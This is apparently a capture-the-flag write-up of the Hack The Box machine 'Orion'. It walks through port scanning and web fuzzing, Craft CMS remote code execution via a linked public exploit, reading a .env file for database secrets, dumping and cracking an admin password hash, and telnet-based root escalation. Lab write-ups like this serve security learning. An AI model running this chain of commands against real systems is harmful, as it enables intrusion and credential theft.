





# WRITE UP Orion - HTB MACHINE
## MY MAIN IDEA AND WALKTHROUGH
### Step 1. First of all, we need to connect with the VPN from HTB, using the command: ```sudo openvpn <FILE_NAME>.ovpn```

### Step 2. OK! now check the HTB website and get the target IP and we are ready to startttt:



### Step 3. Scanning `ports`:
My first approach in this lab was using `nmap` which is a very powerful scanning `ports` tool:

```bash
nmap <IP_ADDRESS>
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-20 16:09 +07
Nmap scan report for <IP_ADDRESS>
Host is up (0.62s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The scanning result showed us that there were two `open ports`, `22` and `80` on the target IP address. So, I used `nmap` `-sC` and `-sV` flag to scan deeper and enumerate helpful information:

```bash
nmap <IP_ADDRESS> -sC -sV -p 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-20 16:11 +07
Nmap scan report for <IP_ADDRESS>
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
```

After this step, the only way to go further is checking the website (`http`) of the target IP address.

### Step 4. Website enumeration:
I checked the target website: `http://orion.htb/`



After trying to click all visible buttons on the website, I did not see anything useful.
So, the next step is using `ffuf` tool to perform `web fuzzing`. According to my own experience, I tried to fuzz the `web vhost` first:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://orion.htb:80/ -H 'Host: FUZZ.orion.htb' -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://orion.htb:80/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Header           : Host: FUZZ.orion.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

:: Progress: [87664/87664] :: Job [1/1] :: 111 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

`ffuf` did not find any `web vhost`, so I scanned for hidden `web directories`:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://orion.htb:80/FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://orion.htb:80/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index                   [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 915ms]
                        [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 1115ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 425ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 310ms]
```

I found hidden path: `/admin` so I checked this hidden path on website and I was redirected to: `http://orion.htb/admin/login`



Scrolling down and I saw the website footer and I knew that this website used `Craft CMS 5.6.16`:



### Step 5. RCE:
(One more time), according to my personal experience, the version of `Craft CMS` became a very valuable detail. Searching on `Google`, I found that this version of `Craft CMS` is exploitable (`CVE-2025-32432`) and that is the way I could perform `RCE`.

There are many public `PoC` of `CVE-2025-32432` on the Internet and you could perform `RCE` by this way. I used the method on this website (`https://github.com/PsyGuy007-sys/craftcms-cve-2025-32432-rce`) and I performed `RCE` successfully.



The above picture showed that I could interact with the backend server as `www-data` user. The `www-data` user has low privilege so I had to find something to access account which has higher privilege.


### Step 6. User flag:
The `.env` file in Linux system contains many sensitive information such as: password, key, username so I tried to `find` this file in `orion` backend system:

```bash
www-data@orion:~/html/craft/web$ find / -type f -name ".env" 2>/dev/null
find / -type f -name ".env" 2>/dev/null
/var/www/html/craft/.env
www-data@orion:~/html/craft/web$ cat /var/www/html/craft/.env
cat /var/www/html/craft/.env
# Read about configuration, here:
# https://craftcms.com/docs/5.x/configure.html

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--67912ad2-1f1b-4993-bfec-e64daa5c23ff

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=dev

# General settings
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=<DB_PASSWORD>
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

PRIMARY_SITE_URL=http://orion.htb/
```

Luckily, the `www-data` user had permisson to read the `.env` file so I knew the `username:password` to access server database.

In the `users` table in `orion` database, I found the password of `adam` user and successfully got the `user flag`:

```bash
$ mysql -u root -h 127.0.0.1 -p'<DB_PASSWORD>' -e "SELECT username, password, email, admin, passwordResetRequired from orion.users;"

+----------+--------------------------------------------------------------+----------------+-------+-----------------------+
| username | password                                                     | email          | admin | passwordResetRequired |
+----------+--------------------------------------------------------------+----------------+-------+-----------------------+
| admin    | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS | adam@orion.htb |     1 |                     0 |
+----------+--------------------------------------------------------------+----------------+-------+-----------------------+
```

Using `hashcat` I gained the plaintext of `adam` password. I logged in using `ssh` with `adam` account:

```bash
ssh adam@orion.htb
adam@orion.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

...<SNIP>...

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

adam@orion:~$ cat user.txt
<USER_FLAG>
```

### Step 7: Privilege escalation:
My "traditional ways" to perform `privilege escalation`:
- Trying `sudo -l`
- Trying `getcap`
- Using `linpeas.sh` or `LinEnum.sh` to scan the system to find vulnerabilities.
But in this lab, my "traditional" approaches did not work. All the vulnerabilities found by `linpeas.sh` or `LinEnum.sh` were false alert.
So, I had to change the system enumeration method. I checked many system files and finally, I found something strange when I searched for `localhost ports`:

```bash
adam@orion:~$ ss -tulpn | grep -E '127.0.0.1|::1'
tcp   LISTEN 0      10         127.0.0.1:23        0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*  
```

The `port 23` was opened locally and that meant that a `telnet` service was running in this server. This detail was strange because `telnet` is an old and insecure way to access the server remotely and this service is replaced by `ssh` in many system. 

I checked the `telnet` version using `telnet --version` and searched for `CVE`. The result is: `CVE-2026-24061`

I used `PoC` on this website: `https://github.com/0p5cur/CVE-2026-24061-POC` and successfully performed `privilege escalation`

```bash
adam@orion:/tmp/CVE-2026-24061-POC$ python3 cve-2026-24061-poc.py 127.0.0.1 23
[+] POC by @opscur (https://github.com/0p5cur)
[+] Connecting to 127.0.0.1:23...

Linux 5.15.0-177-generic (orion) (pts/1)

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Aug 21 12:18:11 AM UTC 2026

  System load:  0.0               Processes:             224
  Usage of /:   77.4% of 5.81GB   Users logged in:       1
  Memory usage: 10%               IPv4 address for eth0: 10.129.31.166
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
root@orion:~#
```

### Step 8. Root flag

```bash
root@orion:~# cat root.txt
<ROOT_FLAG>
```

### NOTE
- I will research about 2 `CVEs` and hopefully I can improve my skillsets and extend my knowledge.
- My blog about 2 `CVEs`: `CVE-2025-32432` and `CVE-2026-24061` will appear soon.

## THING I LEARNT AFTER THIS LAB:
- Do not spend too much time in web enum/fuzzing step
- But fuzzing is an important step to find hidden things =))))
- After completing around 5 labs, I feel like I have a better understanding of what kind of `web fuzzing` I have to do first to gain helpful things
- `curl` sometimes shows things that are not visible on the website.
- `urlencode` is more powerful than I thought previously =))
- Check `cron` file and `localhost ports` when enumerate system for `privilege escalation`
- Trust the process